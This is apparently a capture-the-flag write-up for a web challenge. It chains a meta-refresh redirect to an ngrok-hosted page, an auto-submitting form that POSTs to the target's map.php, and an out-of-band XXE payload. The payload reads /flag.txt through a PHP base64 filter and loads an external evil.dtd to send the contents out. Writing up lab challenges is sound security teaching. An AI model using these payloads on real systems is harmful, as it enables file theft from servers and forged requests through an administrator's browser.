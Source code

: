 [Bubu](https://albertofdr.github.io/) and I worked on this challenge together. The idea is get the admin to send a POST request to the _map.php_ with our XXE payload to exfiltrate the flag. These were the steps:


1 - Create the redirection to our server with the POST payload and send it to the admin. For this we used [ngrok](https://ngrok.com/) to make localhost accessible from the internet. To make this redirection we used the following meta tag:

```html
<meta http-equiv="refresh" content="0; url=https://3f56-92-56-131-173.ngrok-free.app/html.html">
```

2 - Create an HTML with an script to send the POST data to _map.php_, the value of the data field will be a XXE payload one-liner.

```html
<html>
    <form id="sad" action="https://peak.web.glacierctf.com/admin/map.php" method="POST"> <!-- We explain the XXE in the next step -->
        <input type="text" name="data" value='<!DOCTYPE data [<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag.txt"><!ENTITY % dtd SYSTEM "https://3f56-92-56-131-173.ngrok-free.app/evil.dtd"> %dtd; %send;]><markers><marker><lat>47.0748663672</lat><lon>12.695247219</lon><name>test</name></marker></markers>'/>
        <input type="submit" value="save"/>
    </form>
    <script>
        form = document.getElementById("sad")
        form.submit();
    </script>
</html>
```

3 - Create an XXE Out-of-band payload to exfiltrate the flag. For this, we used a payload that loads the external DTD from our server, then the DTD will exfiltrate the flag in base64 format. We called %send since it is the entity on our evil.dtd file:

```xml

<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "php://filter/read=convert.base64-encode/resource=file:///flag.txt">
  <!ENTITY % dtd SYSTEM
  "https://3f56-92-56-131-173.ngrok-free.app/evil.dtd">
  %dtd; %send;
]>
<markers>
    <marker>
        <lat>47.0748663672</lat>
        <lon>12.695247219</lon>
        <name>test</name>
    </marker>
</markers>




<!DOCTYPE data [<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag.txt"><!ENTITY % dtd SYSTEM "https://3f56-92-56-131-173.ngrok-free.app/evil.dtd"> %dtd; %send;]><markers><marker><lat>47.0748663672</lat><lon>12.695247219</lon><name>test</name></marker></markers>
```
